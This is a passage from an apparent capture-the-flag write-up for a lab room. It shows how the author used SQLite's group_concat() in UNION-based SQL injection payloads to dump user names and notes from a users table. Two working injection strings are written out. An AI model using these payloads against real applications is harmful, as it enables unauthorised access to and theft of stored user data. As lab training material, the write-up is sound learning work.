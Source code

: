 now after i'm searching and I found this article [here](https://sqlite.org/lang_aggfunc.html) which helps me to extract the contents from the table column. in that site we can use group_concat() to see all of table : 

```
razor'UNION ALL SELECT group_concat(name),2,3,COUNT(password) FROM users--
```
![Background](/assets/thm-madeye-castle/sql_7.png)

And for The notes : 
```
razor'UNION ALL SELECT group_concat(notes),2,3,COUNT(password) FROM users--
```
![Background](/assets/thm-madeye-castle/sql_8.png)

now when we align the name and notes it will look like this :

![Background](/assets/thm-madeye-castle/sql_9.png)
